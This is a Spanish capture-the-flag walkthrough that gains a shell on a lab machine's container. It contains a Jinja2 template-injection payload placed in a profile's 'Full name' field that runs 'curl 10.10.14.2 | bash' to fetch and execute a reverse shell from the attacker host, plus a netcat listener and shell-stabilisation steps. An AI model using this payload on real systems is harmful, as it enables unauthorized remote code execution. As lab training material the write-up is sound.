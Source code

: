 Compartiremos el index.html
```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80
```

```bash
❯ nc -nlvp 443                              # Nos ponemos en escucha por el puert 443
```

Con este comando podriamos hacer **curl** que se interpretara con bash a nuestra IP desde el contenedor hacia nuestra maquina victima. Este se coloca en la parte de **Full name** en Settings
```bash 
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('curl 10.10.14.2 | bash').read() }}
```
Ganamos acceso a la maquina pero al contenedor.

Tratamiento de la pseudo-consola
```bash
❯ python3 -c ‘import pty;pty.spawn(“/bin/bash”)’         # Para remplazar el comando de 'Script' por si no lo acepta la consola

❯ Script /dev/null -c bash
❯ Ctrl + z
❯ stty raw -echo; fg
❯ reset xterm

# Despues cambiamos esto para poder hacer Ctrl+ l y Ctrl + c
❯ echo $SHELL                                            # Para ver la ruta de shell y ver que valor tiene **/usr/bin/nologin**
❯ export SHELL=bash o ❯ export SHELL=/bin/bash           # Hacemos que shell ahora valga bash
❯ export TERM=xterm                                      # Para poder hacer Ctrl +c y Ctrl + l (l=ele)

# Ahora para modificar las dimensiones de Vim/nano debemos hacer lo siguiente.
❯ stty size                                              # Miramos las dimensiones de la consola
❯ stty rows 51 columns 189                               # Modificamos las dimensiones de la consola Vim/Nano
```

```bash
❯ whoami                                     # Miramos el nombre del usuario
```

```bash
❯ hostname -I                                # Nos muestra solo la direccion IP
```

Este comando es para ver la tabla de ruteo y mirar que existe en el contenedor la IP -> 127.19.0.1
```bash
❯ route -n                                   # Para mirar las routing tables
```

```bash
❯ ifconfig docker0                           # Miramos la IP de la interfaz de Docker
```

Buscamos la flag del usuario user.txt en el /home 
